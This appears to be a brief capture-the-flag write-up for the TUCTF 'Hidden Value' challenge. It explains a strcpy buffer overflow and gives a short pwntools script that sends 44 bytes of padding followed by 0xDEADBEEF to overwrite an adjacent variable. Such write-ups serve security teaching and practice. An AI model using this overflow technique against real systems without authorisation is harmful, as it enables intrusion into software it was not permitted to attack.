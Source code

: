 Hidden Value
50
Easy
There's a hidden value in this program, can you find it?

## Solution:

1. Buffer overflow in strcpy.
2. Overwrite the next variable.

```python
from pwn import *

io = remote('chal.tuctf.com', 30012)

io.send(b'a'*44)
io.pack(0xDEADBEEF)

io.interactive()
```
